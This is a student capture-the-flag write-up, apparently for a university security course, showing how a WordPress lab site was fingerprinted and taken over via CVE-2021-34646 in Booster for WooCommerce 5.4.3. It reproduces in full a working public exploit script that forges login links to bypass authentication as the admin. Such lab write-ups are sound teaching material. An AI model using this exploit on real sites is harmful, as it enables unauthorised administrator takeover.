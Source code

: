 # Trabalho realizado na semana #3

# CTF Walkthrough

## Introduction
- We began our journey by accessing the provided [link](http://ctf-fsi.fe.up.pt:5001/). 
- Then we started by searching for something in the website and then inspected the website code in order to find some libraries that were used, so than we could then search for CVEs about those libraries versions. 
- Eventually, we discovered the versions of the libraries that we were interested in on one of the [webpages](http://ctf-fsi.fe.up.pt:5001/product/wordpress-hosting/).

## Versions Found and User Enumeration
Here are the libraries versions we found:

- WordPress: 5.8.1
- WooCommerce Plugin: 5.7.1
- Booster for WooCommerce Plugin: 5.4.3

We also conducted user enumeration and identified two users:

- admin
- Orval Sanford


## Vulnerability Research
Our primary objective was to gain access to one of the user accounts. To achieve this, we initiated a search on the [CVE details website](https://www.cvedetails.com/) for some vulnerabilities associated with the libraries versions that we found. Some of the queries were simply like:
- WordPress: 5.8.1 Admin Acess
- WooCommerce Plugin: 5.7.1 Admin Acess
- WooCommerce Plugin 5.4.3 Admin Acess 

During our research, we found that one of the CVEs affecting our version was CVE-2021-34646, specifically related to the Booster for WooCommerce 5.4.3 library.

## Exploitation
We proceeded to search for an exploit related to CVE-2021-34646. We had relative ease in locating an exploit on the Exploit Database, which took advantage of this vulnerability. You can find the exploit here: [Exploit CVE-2021-34646](https://www.exploit-db.com/exploits/50299) which add the python code to gain admin acess to the pretended website.

```
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)

def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()



for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")
```

After obtaining a Python script, we ran it. By providing the website link and a user ID as inputs, we obtained multiple links. Since the admin's user ID is often 1, we executed the script with this value. Clicking on the first link granted us login access as the administrator.

![Result of the python script](images/fsi.png)

## Flag Retrieval
Following a successful login as the admin, we simply navigated to the indicated link [http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php](http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php) and located the desired flag.

Our journey to obtain the flag was completed successfully.
